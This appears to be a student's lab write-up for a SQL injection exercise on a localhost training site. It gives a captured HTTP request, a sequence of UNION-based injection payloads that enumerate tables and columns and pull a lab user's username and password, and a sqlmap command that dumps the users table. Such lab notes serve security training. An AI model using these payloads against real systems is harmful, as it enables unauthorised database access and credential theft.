 ```bash
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/i0x03.php
Accept-Encoding: gzip, deflate, br
Cookie: session=6967cabefd763ac1a1a88e11159957db
Connection: keep-alive

product=Shougatsu+Sushi+Rack
```

```bash
x' or 1=1#
# returns all the products

Senpai Knife Set' union select null,null,null,null#
# the products table may have only 4 columns

Senpai Knife Set' union select null,null,null,table_name from information_schema.tables#
	injection0x03_products
	injection0x03_users
Senpai Knife Set' union select null,null,null,column_name from information_schema.columns#
	mfa
	password
	username

Senpai Knife Set' union select null,null,null,username from injection0x03_users#
	takeshi

Senpai Knife Set' union select null,null,null,password from injection0x03_users#
	onigirigadaisuki

# One query
Senpai Knife Set' union select username,password,null,null from injection0x03_users#
	takeshi:onigirigadaisuki # Creds found
```

- Test with `sqlmap`

```bash
nano req3.txt

sqlmap -r req3.txt -T injection0x03_users --dump

---
Database: peh-labs
Table: injection0x03_users
[1 entry]
+------------------+----------+
| password         | username |
+------------------+----------+
| onigirigadaisuki | takeshi  |
+------------------+----------+
---
```

